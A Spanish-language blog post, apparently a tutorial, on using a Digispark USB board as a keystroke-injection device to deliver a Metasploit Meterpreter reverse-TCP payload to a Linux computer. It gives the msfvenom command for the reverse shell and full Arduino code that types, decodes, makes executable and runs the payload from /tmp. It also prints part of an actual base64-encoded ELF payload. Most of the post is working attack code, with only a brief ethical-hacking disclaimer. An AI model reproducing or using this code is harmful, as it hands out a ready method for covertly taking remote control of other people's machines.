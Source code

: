 ```yaml
---
layout: post
title: Basic Exploit with Digispark

---
```

# Introducción
En el dia de hoy explicaremos como hacer una técnica de explotación básica ayudandonos de Digispark y metasploit framework.
Este post lo he creado en Español para difundir mi idioma y dar a conocer el mundo de la seguridad informática en Español.
Para comenzar necesitaremos lo siguiente:  
  - Digispark: [amazon](https://www.amazon.es/AZDelivery-Digispark-Kickstarter-Desarrollo-compatible/dp/B076KS2QDS/ref=asc_df_B076KS2QDS/?tag=googshopes-21&linkCode=df0&hvadid=301006161094&hvpos=1o1&hvnetw=g&hvrand=3258160503763513062&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9047059&hvtargid=pla-602427609241&psc=1)
  - Disposición Linux, en mi caso uso ubuntu 18.04
  - Metasploit Framework
  
Cabe mencionar que necesitamos comprar el Digispark, yo lo compré en Amazon, 3 por casi 10 euros y sin duda merece la pena, se puede hacer
tales cantidades de proyectos..

Todo lo que explico es con fines educativos, no me hago responsable del mal uso que le hagais a este post, simplemente me gusta enseñar las habilidades de hacking ético que conozco con el fin de que aprendais como podeis ser atacados y saber defenderos.

# Construyendo el exploit
Para crear el exploit debemos usar la herramienta msfvenom y excribir la siguiente linea de código: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP A USAR) LPORT=(PUERTO A USAR) -f elf > exploit`

Como podemos observar lo que crearemos es un exploit el cual, al ejecutarse en el equipo victima (con distribución linux) nos abrirá una conexión tcp
la cual nos permitirá infectar el equipo y con meterpreter poder acceder a todos sus archivos. 
En la IP cada uno pondra su ip, se puede mirar abriendo la terminal y escribiendo el siguiente comando `ifconfig`, dependiendo si teneis vuestro computador enchufado por cable o lo teneis inalámbrico estará en una interfaz o otra. Esa IP es privada, es decir, solo os servirá para vuestra propia red, no obstante se puede crear este exploit y sacarlo fuera de la red local(LAN), pero eso lo dejaré para otro post. Dicho esto yo usaré mi IP privada y un puerto efímero, el 5000 por ejemplo.

![Foto1](/images/foto1.png)
 
Bien, para terminar de construir este exploit hay que tranformarlo a base64 para poder ejecutarlo directamente en la computadora víctima, asique escribiremos lo siguiente: `base64 exploit > exploit.b64`. Podemos comprobar que ha sido construido satisfactoriamente con el comando `cat exploit.b64`.

![Foto2](/images/foto2.png)

# Creando el script para Digispark
Bien, ahora pasemos a lo interesante de este post, crearemos un script en Arduino que nos permita crear un archivo b64 en la computadora victima, darle los permisos de ejecución con chmod y ejecutarlo para poder explotar el sistema. Para ello como ya he dicho nos apoyaremos en Arduino, para ponerlo en funcionamiento debereis descargarlo en la pagina oficial [arduino](https://www.arduino.cc/en/Main/Software) . Posteriormente en el arduino nos iremos a `Herramientas->Placa->Gestor de Tarjetas` y instalaremos `Digistump AVR boards`, por último en placa ya seleccionaremos `Digispark(Default - 16.5mhz)` y Fiuh listo ya podemos ponernos manos a la obra y empezar a crear nuestros primeros script para el Digispark. Como todos sabeis Arduino consta de dos funciones setup() en la cual inicializaremos los pines y cualquier otra cosa, se puede dejar en blanco y la función loop() que se repetira constantemente. Empezaremos con las lineas `#include "DigiKeyboard.h"` para poder trabajar con DigiKeyboard, que nos permitirá simular un teclado con el Digispark.
Yo os facilitaré el código que he creado para ejecutar el script en el ordenador víctima.
```C++
#include "DigiKeyboard.h"
#define KEY_DELETE 0x4C
void setup() {
  
// Encendemos el LED para saber que se esta ejecutando
pinMode(1, OUTPUT);
delay(200);
digitalWrite(1, HIGH);
DigiKeyboard.sendKeyStroke(KEY_DELETE);
delay(200);

//Abrimos el buscador y escribimos terminal
DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT); 
DigiKeyboard.delay(1000);
DigiKeyboard.print("terminal");
DigiKeyboard.delay(500);

// Creamos el payload
DigiKeyboard.print("echo");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.print("TU PAYLOAD");
DigiKeyboard.sendKeyStroke(KEY_1,MOD_ALT_RIGHT);
DigiKeyboard.print(" base64 //decode ");
DigiKeyboard.sendKeyStroke(100,2);
DigiKeyboard.print(" ");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);

// Cambiamos los permisos para poder ejecutarlo y lo ejecutamos
DigiKeyboard.print("chmod 755");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(200);
// Ejecutamos
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);

DigiKeyboard.delay(100);
// Paramos el led
digitalWrite(1, LOW);

}

void loop() {
// Para saber que el script se ha ejecutado con exito, mantendremos el led encendiendose y apagandose

digitalWrite(1, HIGH);
delay(200);

digitalWrite(1, LOW);
delay(300);

}
```
Bien, el código es un poco enrevesado, pero después de darle unas vueltas os dareis cuenta de que lo único que hace es: Encender el led rojo fijo, abrir la terminal, escribir el payload generado y guardarlo en un archivo, cambiarle los permisos y ejecutarlo, para terminar pone el led intermitente. Es simplemente eso.
Puedo comentaros algunos problemillas que he tenido, mi payload tenia una barra invertida entre medias entonces he tenido que dividir el print, y la barra la he puesto con la combinación de teclas que corresponde, puesto que si la escribía en el print daba errores con el teclado y no se escribia una / si no un - . Por eso en mi caso me quedaría asi ese trozo:
```C++
DigiKeyboard.print("f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKhkFGgCABOIieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("huAEAAAC7AQAAAM2A ");

```
Ahi apreciais como separo el payload, escribo la barra `/` y ya continuo. Os menciono esto por si, a la hora de escribir vuestro payload, como evidentemente el valor cambia, os adelanto este problema.
